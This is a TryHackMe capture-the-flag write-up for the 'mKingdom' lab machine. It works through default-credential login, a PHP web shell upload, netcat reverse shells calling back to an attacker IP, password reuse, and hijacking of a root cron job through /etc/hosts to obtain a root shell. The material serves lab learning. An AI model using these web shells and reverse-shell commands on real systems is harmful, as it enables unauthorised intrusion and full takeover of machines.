






# mKingdom - TryHackMe Writeup

**TL;DR:** Weak Credentials → File Upload Bypass → Credential Reuse → Lateral Movement → Cron Job → DNS Poisoning → Root

## Target
- Machine: `mkingdom.thm`
- Date: 2025-4-23
- Environment: TryHackMe / CTF

## Steps:

### 1. Initial scan:

```bash
#
nmap -sV -sC -T4 -Pn 10.10.186.42

85/tcp open  http    Apache httpd 2.4.7 ((Ubuntu))
|_http-title: 0H N0! PWN3D 4G4IN
|_http-server-header: Apache/2.4.7 (Ubuntu)
```

### 2. Directory Discovery:
```bash
gobuster dir -u http://mkingdom.thm:85/ -w /usr/share/wordlists/dirb/big.txt -t 40 -x .php

/app                  (Status: 301) [Size: 312]


gobuster dir -u http://mkingdom.thm:85/app/castle/ -w /usr/share/wordlists/dirb/big.txt -t 40 -x .php

/application
/concrete
/index.php
/packages
/robots.txt
/updates
```

### 3. Web Application Discovery

The web application presented a login page at `http://mkingdom.thm:85/app/castle/`. Initial attempts at SQL injection and brute-force attacks resulted in an IP ban, indicating the presence of security measures.

#### Credential Discovery
After testing common credentials, access was successfully gained using:
- **Username**: `admin`
- **Password**: `password`




#### File Upload Bypass

The application allowed file uploads but restricted PHP files by default. To bypass this:

1. Navigated to the file types configuration:
   `http://mkingdom.thm:85/app/castle/index.php/dashboard/system/files/filetypes`

2. Added `.php` extension to the allowed file types:




#### Web Shell Deployment

Created a simple PHP web shell:
```php
<?php system($_GET['cmd']); ?>
```

Uploaded the shell file through the application's file upload functionality:





The web shell became accessible at:
`http://mkingdom.thm:85/app/castle/application/files/9817/6188/7568/cmd.php`

Verified functionality by executing the id command:
`http://mkingdom.thm:85/app/castle/application/files/9817/6188/7568/cmd.php?cmd=id`



#### Revese Shell Establishment

To gain a proper shell access:

   1. Set up netcat listener on attacking machine:
```bash
nc -lnvp 4444
```
   2. Trigger reverse shell via web shell:

```bash
curl 'http://mkingdom.thm:85/app/castle/application/files/9817/6188/7568/cmd.php?cmd=busybox%20nc%2010.9.1.13%204444%20-e%20bash'
```
   3.     Upgrade shell for better interaction: 

```bash
python3 -c 'import pty;pty.spawn("/bin/bash")'
export TERM=xterm
```

### 4. Lateral Movement & Credential Discovery

While exploring the web application structure, database credentials were discovered in the configuration file:

**Location**: `/var/www/html/app/castle/application/config/database.php`



#### Password Reuse

The discovered database password was reused successfully to switch to the `toad` user:

```bash
www-data@mkingdom:/$ su toad
Password: 
toad@mkingdom:/$ id
uid=1002(toad) gid=1002(toad) groups=1002(toad)
```


Examination of user configuration files revealed credentials in an unexpected location:

```bash
toad@mkingdom:~$ cat .bashrc 


export PWD_token='[REDACTED]=='

#decode it
echo '[REDACTED]==' | base64 -d
[REDACTED]
```

The decoded credentials provided access to the `mario`user:
```bash
su mario
Password:

mario@mkingdom:/home/toad$ id
uid=1001(mario) gid=1001(mario) groups=1001(mario)
```
#### User flag

```bash
mario@mkingdom:~$ cat user.txt 
cat: user.txt: Permission denied
# The cat binary runs as toad user, preventing access.

mario@mkingdom:~$ more user.txt 
thm{[REDACTED]}
```


### 5. Privilege Escalation to Root


#### Enumeration with LinPEAS

Uploaded and executed LinPEAS for automated privilege escalation enumeration, which revealed a critical finding:

```bash
╔══════════╣ Searching root files in home dirs (limit 30)
/var/www/html/app/castle/application/counter.sh
```

Discovered a root-owned script that appeared to be part of a scheduled task:
```bash
ls -la /var/www/html/app/castle/application/counter.sh
#-rw-r--r-- 1 root root 129 Nov 29  2023 /var/www/html/app/castle/application/counter.sh

cat /var/www/html/app/castle/application/counter.sh
##!/bin/bash
#echo "There are $(ls -laR /var/www/html/app/castle/ | wc -l) folder and files in TheCastleApp in - - - - > $(date)."
```

#### Process Monitoring with pspy

Using pspy64 to monitor background processes revealed a critical cron job execution:
```bash
./pspy64


2025/10/31 03:50:01 CMD: UID=0     PID=4366   | curl mkingdom.thm:85/app/castle/application/counter.sh
2025/10/31 03:50:01 CMD: UID=0     PID=4365   | CRON 
2025/10/31 03:50:01 CMD: UID=0     PID=4364   | /bin/sh -c curl mkingdom.thm:85/app/castle/application/counter.sh | bash >> /var/log/up.log
```
A root-level cron job was fetching and executing counter.sh from the web server via curl.

#### DNS Poisoning Attack

1. Created malicious counter.sh on attacking machine:
```bash
mkdir -p app/castle/application/

echo "bash -c 'bash -i >& /dev/tcp/YOUR_IP/4445 0>&1'" > app/castle/application/counter.sh
```

2. Hosted malicious script via Python HTTP server:
```bash
python3 -m http.server 85
```

3. Poisoned DNS resolution by modifying `/etc/hosts`:
```bash
mario@mkingdom:/tmp$ cat /etc/hosts
127.0.0.1       localhost
YOUR_IP       mkingdom.thm  # <- Added malicious entry
```

4. Prepared netcat listener:
```bash
nc -lnvp 4445
```

#### Root Shell Acquisition

The cron job executed the malicious script, providing a reverse shell as root:
```bash
root@mkingdom:~# id
id
uid=0(root) gid=0(root) groups=0(root)
root@mkingdom:~# 
```

#### Root Flag

Successfully retrieved the root flag:
```bash

more root.txt
thm{[REDACTED]}
```
